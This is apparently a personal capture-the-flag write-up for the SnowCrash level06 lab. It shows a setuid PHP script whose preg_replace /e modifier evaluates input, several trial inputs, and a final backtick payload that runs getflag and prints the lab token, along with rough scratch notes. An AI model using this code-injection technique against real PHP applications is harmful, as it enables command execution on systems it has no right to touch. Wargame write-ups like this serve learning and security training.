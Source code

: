 level06@SnowCrash:~$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile


level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4

level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>


argv1 = fileName->getContent->"[x ?]"=y("fileName")
argv2 = 


https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier
regex:

./ -> ' x '
@ -> ' y'

x /anything/
e = 


 ./level06 /bin/getflag
 ...
libcldCheck flag.Here is your token : You are root are you that dumb ?
 ...
Nope there is no token here for you sorry. Try again :)00000000 00:00 0LD_PRELOAD detected through memory maps exit ..
 ...


try1:
level06@SnowCrash:~$ echo "[/bin/getflag]" > /tmp/lvl06
level06@SnowCrash:~$ ./level06 /tmp/lvl06
(/bin/getflag)

try2:
level06@SnowCrash:~$ echo "[x /bin/getflag]" > /tmp/lvl06
level06@SnowCrash:~$ ./level06 /tmp/lvl06
/bin/getflag


level06@SnowCrash:~$ echo "[x getflag]" > /tmp/lvl06
level06@SnowCrash:~$ ./level06 /tmp/lvl06
getflag
level06@SnowCrash:~$ echo "[x `getflag`]" > /tmp/lvl06
level06@SnowCrash:~$ ./level06 /tmp/lvl06
(x Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :))



 echo '[x ${`getflag`}]' > /tmp/lvl06
level06@SnowCrash:~$ ./level06 /tmp/lvl06
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
